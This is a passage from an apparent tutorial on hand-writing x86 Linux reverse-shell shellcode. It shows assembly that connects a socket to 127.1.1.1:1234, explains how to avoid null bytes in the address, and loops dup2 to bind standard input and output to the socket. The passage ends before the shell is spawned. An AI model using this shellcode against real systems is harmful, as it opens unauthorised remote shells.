 ## Connect to an IP and Port

This will essentially be the same setup as bind() except we'll be replacing the socketcall() argument from SYS_BIND to SYS_CONNECT. Instead of specifying INADDRY_ANY we'll need to specify a real IP address. For testing purposes this will be our loopback address. However there is a catch.

```python
>>> import socket
>>> socket.inet_aton('127.0.0.1')
b'\x7f\x00\x00\x01'
```

As you can see our loopback address contains nulls in it, which will break our shellcode. To work around this we can use the loopback address of 127.1.1.1.

```python
>>> socket.inet_aton('127.1.1.1')
b'\x7f\x01\x01\x01'
```

Remember this address needs to be pushed in reverse, so our final hex for our IP address will be 0x0101017f. The rest of the instructions are essentially the same as the bind shell code.

```nasm
mov al, 0x66		; socketcall (102)
pop ebx			; (2)
push 0x0101017f		; s_addr = 127.1.1.1 
push word 0xd204	; sin_port = 1234
push bx			; AF_INET (2)
mov ecx, esp		; point ecx to top of stack
push 0x10		; sizeof(host_addr)
push ecx		; pointer to host_addr struct
push edi		; socketfd
mov ecx, esp		; point ecx to top of stack 
inc ebx			; SYS_CONNECT (3)
int 0x80		; execute connect
```

## Redirect STDIN, STDOUT, STDERR

Again we'll need to redirect STDIN, STDOUT, and STDERR. We'll once again utilize a loop to accomplish this, the only difference here is the utilization of the PUSH and POP technique to get the desired counter value in ECX.

```nasm
	xchg ebx, edi           ; move socketfd into ebx for dup2
	push 0x2
	pop ecx			; zero out ecx
	
loop:
	mov al, 0x3f		; dup2 (63)
	int 0x80		; exec dup2
	dec ecx			; decrement counter
	jns loop		; jump until SF is set
```
